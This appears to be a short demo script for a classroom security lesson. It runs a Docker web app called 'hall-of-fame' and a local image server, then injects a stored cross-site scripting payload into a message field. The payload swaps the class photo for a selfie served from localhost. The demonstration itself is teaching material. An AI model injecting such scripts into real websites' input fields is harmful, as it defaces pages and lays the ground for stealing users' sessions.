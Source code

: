 
1. `git clone` the project. #Copy the code
2. `docker build -t hall-of-fame .`  #build the container
3. `docker run -p 5000:5000 hall-of-fame` #run the container
4. `python3 -m http.server 9999` Run the temporary webserver from /Home/Pictures/TmpWebServer/
5. Visit the page in a browser from the demoworkstation: http://127.0.0.1:5000
6. Provoke the class: **Are we sure that this is really the best class ever?  what if it was us?**
7. Take selfie with the class.  Copy the picture to the directory /Home/Pictures/TmpWebServer/  Rename it as pic.jpg
8. insert the following code in the message field & hit submit:

```<script>
setTimeout(function() {
    var photos = document.getElementsByClassName('class-photo');
    if (photos.length > 0) {
        photos[0].src = 'http://127.0.0.1:9999/pic.jpg';
    }
}, 100);
</script>

